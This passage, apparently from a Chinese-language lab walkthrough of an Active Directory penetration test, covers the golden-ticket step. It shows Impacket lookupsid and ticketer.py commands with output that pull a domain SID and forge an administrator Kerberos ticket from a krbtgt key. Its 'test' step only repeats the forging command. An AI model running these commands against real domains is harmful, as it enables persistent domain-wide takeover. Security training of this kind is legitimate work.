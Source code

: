 # 八、生成黄金票据
## 1、获得域SID
```plain
┌──(root㉿kali)-[~]
└─# impacket-lookupsid test1:"Az123456@"@192.168.30.2
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Brute forcing SIDs at 192.168.30.2
[*] StringBinding ncacn_np:192.168.30.2[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-1652425874-2692758975-732503029
```

## 2、获得krbtgt的Hash
已经在第七步获取

## 3、ticketer.py
-user-id默认为500

```plain
(py38) C:\root\tools\impacket\examples> python3 ticketer.py -aesKey 08acd860886b3d0f5d365c62b76591a7 -domain-sid S-1-5-21-1652425874-2692758975-732503029 -domain sec.com -user-id 500 administrator
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for sec.com/administrator
[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
[*]     EncAsRepPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
[*]     EncTicketPart
[*]     EncASRepPart
[*] Saving ticket in administrator.ccache

(py38) C:\root\tools\impacket\examples> export KRB5CCNAME=administrator.ccache
```

## 4、测试
```plain
(py38) C:\root\tools\impacket\examples> python3 ticketer.py -aesKey 08acd860886b3d0f5d365c62b76591a7 -domain-sid S-1-5-21-1652425874-2692758975-732503029 -domain sec.com -user-id 500 administrator
Impacket v0.12.0.dev1+20240816.161125.5d881ece - Copyright 2023 Fortra

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for sec.com/administrator
[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
[*]     EncAsRepPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
[*]     EncTicketPart
[*]     EncASRepPart
[*] Saving ticket in administrator.ccache

(py38) C:\root\tools\impacket\examples> export KRB5CCNAME=administrator.ccache

```